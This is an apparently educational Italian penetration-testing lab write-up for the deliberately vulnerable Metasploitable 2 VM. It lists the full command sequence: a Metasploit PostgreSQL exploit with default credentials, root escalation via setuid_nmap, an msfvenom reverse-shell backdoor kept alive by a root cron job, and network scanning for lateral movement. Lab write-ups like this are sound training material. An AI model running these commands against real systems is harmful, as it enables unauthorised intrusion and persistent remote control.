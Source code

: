 # Penetration Testing: Metasploitable 2 - Privilege Escalation & Persistence

## **Obiettivo**
Eseguire:
1. **Exploitation** di una vulnerabilità PostgreSQL su Metasploitable 2
2. **Escalation di privilegi** per ottenere root
3. **Persistenza** tramite una backdoor
4. Preparazione al **movimento laterale** e troubleshooting

---

## **1. Scansione e Identificazione dei Servizi**
### **Scansione con Nmap**
Abbiamo effettuato una scansione per identificare i servizi vulnerabili sulla macchina **Metasploitable 2**:

```bash
nmap -sV 192.168.1.152
```

**Risultato:**
- **PostgreSQL** è attivo sulla porta `5432/tcp` con la versione `PostgreSQL DB 8.3.0`.

---

## **2. Exploitation: PostgreSQL**
### **Uso del modulo PostgreSQL Payload**
Abbiamo utilizzato Metasploit per sfruttare PostgreSQL e ottenere una sessione **Meterpreter**.

**Comandi usati:**
```bash
use exploit/linux/postgres/postgres_payload
set RHOST 192.168.1.152
set USERNAME postgres
set PASSWORD postgres
set LHOST 192.168.1.150
set LPORT 4445
run
```

**Risultato:**
- **Sessione Meterpreter** ottenuta con successo!

---

## **3. Escalation di Privilegi**
### **Utilizzo del modulo Local Exploit Suggester**
Abbiamo identificato possibili vulnerabilità locali per l'escalation di privilegi.

**Comandi eseguiti:**
```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

**Exploit suggeriti:**
1. `glibc_ld_audit_dso_load_priv_esc`
2. `setuid_nmap`

### **Sfruttamento dell'exploit**
Abbiamo tentato l'exploit `setuid_nmap` per ottenere i privilegi root:

```bash
use exploit/linux/local/setuid_nmap
set SESSION 1
run
```

**Risultato:**
- Escalation riuscita: utente `root` ottenuto!

**Verifica:**
```bash
getuid
whoami
```
---

## **4. Persistenza della Backdoor**
Abbiamo configurato una **backdoor persistente** per mantenere l'accesso anche dopo un riavvio.

### **Creazione del Payload**
Generazione del payload con **msfvenom**:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.150 LPORT=4445 -f elf > backdoor.elf
```

### **Caricamento del Payload**
Utilizzando Meterpreter:

```bash
upload backdoor.elf /usr/local/bin/persistence
chmod +x /usr/local/bin/persistence
```

### **Configurazione del Cron Job**
Abbiamo configurato un **cron job** per avviare la backdoor ad ogni riavvio:

```bash
echo "@reboot /usr/local/bin/persistence" >> /etc/cron.d/root_persistence
cat /etc/cron.d/root_persistence
```

**Risultato:**
- Backdoor configurata correttamente per l'avvio automatico.

---

## **5. Verifica della Persistenza**
### **Riavvio della macchina Metasploitable**
Abbiamo riavviato la macchina Metasploitable e verificato il listener Metasploit.

**Listener su Kali Linux:**

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.150
set LPORT 4445
run
```

**Risultato:**
- La connessione **Meterpreter** è stata ristabilita automaticamente.

---

## **6. Troubleshooting e Movimento Laterale**
### **Identificazione di altre macchine nella rete**
Abbiamo utilizzato **ARP Scanner** per identificare altri host nella rete locale:

```bash
run post/multi/gather/arp_scanner
```

### **Scansione delle macchine rilevate**
Abbiamo eseguito una scansione con Nmap per identificare nuovi servizi sfruttabili:

```bash
nmap -sV 192.168.1.0/24
```

---

## **Conclusioni**
1. Ottenuta una sessione Meterpreter tramite PostgreSQL.
2. Escalation dei privilegi a **root** utilizzando `setuid_nmap`.
3. Configurata una **backdoor persistente** che sopravvive ai riavvii.
4. Avviato il movimento laterale per esplorare altri host nella rete.

**Prossimi Passi:**
- Automatizzare ulteriormente la persistenza.
- Sfruttare altre vulnerabilità per movimento laterale.

---

## **Autore**
**[Nome del tuo team/tuo nome]** - 2024

**Tools utilizzati**:
- Kali Linux
- Metasploit Framework
- Nmap
- msfvenom